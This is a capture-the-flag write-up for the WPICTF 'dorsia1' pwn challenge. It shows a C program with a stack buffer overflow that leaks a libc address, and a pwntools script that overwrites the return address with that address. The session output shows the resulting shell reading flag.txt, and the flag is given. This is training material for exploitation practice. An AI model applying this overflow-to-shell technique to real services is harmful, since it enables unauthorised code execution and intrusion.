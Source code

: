 # pwn - dorsia1

## Challenge
http://us-east-1.linodeobjects.com/wpictf-challenge-files/dorsia.webm The first
card.

nc dorsia1.wpictf.xyz 31337 or 31338 or 31339

made by: awg

Hint: Same libc as dorsia4, but you shouldn't need the file to solve.

## Solution
The first card:
```
#include <stdio.h>
#include <stdlib.h>

void main()
{
  char a[69];
  printf("%p\n", system+765772);
  fgets(a, 96, stdin);
}
```

Solution:
```
#!/usr/bin/env python3

from pwn import *

HOST = 'dorsia1.wpictf.xyz'
PORT = 31337

r = remote (HOST, PORT)
addr = r.recvline().rstrip()
print(addr)

p = b''
p += b'A' * 77
p += p64(int(addr,16))

r.sendline(p)

r.interactive()
```

```
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
b'0x771e7023a38c'
[*] Switching to interactive mode
$ ls
flag.txt
nanobuf
run_problem.sh
$ cat flag.txt
WPI{FEED_ME_A_STRAY_CAT}
```

## Flag
```
WPI{FEED_ME_A_STRAY_CAT}
```
